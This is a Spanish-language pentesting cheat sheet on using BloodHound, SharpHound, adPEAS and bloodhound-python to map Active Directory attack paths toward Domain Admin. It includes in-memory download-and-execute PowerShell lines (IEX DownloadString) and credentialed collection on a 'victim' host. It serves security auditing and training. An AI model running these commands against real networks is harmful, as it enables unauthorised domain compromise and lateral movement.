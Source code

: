 # Bloodhound 

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries/tree/master/BloodHound_Custom_Queries)
* [Bloodhound](https://www.kali.org/tools/bloodhound/)

```bash 
❯ bloodhound-setup           # Iniciar el neo4j 'http:localhost:7474'   
❯ BloodHound --no-sandbox    # Ejecutar Bloodhound y se abre en la web 'http://localhost:8080/ui/login'

Notas: 
	1. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j' y conectarse a la web 'Bloodhound' para agregar las nuevas credenciales 'admin:admin'
	2. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Enumerar lo siguiente en BloodHound en 'Analysis':

	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
```

```bash 
Una vez obtenido un usuario:

# Manera 1
1. Agregar la opción 'Mark User as Owned'
2. Darle click al usuario y se seleccionará el menú 'Node Info'
	1. Seleccionar la opción 'Reachable High Value Targets' para ver el camino y lo que deberiamos de hacer para ser usuario 'Administrator' en 'Overview'
	2. Seleccionar 'First Degree Object Control' en 'Outbound control rights' para ver si el usuario contempla alguna acción 
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell 
❯ Import-Module .\SharpHound.ps1       # Importar el modulo, tambien se puede hacer con el '.exe'

❯ Invoke-BloodHound -CollectionMethod All
```

```powershell
# Importar el modulo en memoria
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Si se ha instalado 'BloodHound' con 'apt' se debe de usar 'SharpHound.exe' que se encuentra en la ruta de instalacion del BloodHound para que se puedan cargar los datos 
	2. Recolectar la información en la maquina victima Windows y obtener un archivo '.zip' para agregarlo a 'BloodHound'
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Notas: 
	1. Al usar ADPeas para hacer la recolección ejecuta 'SharpHound' automaticamente
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Notas: 
	1. Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```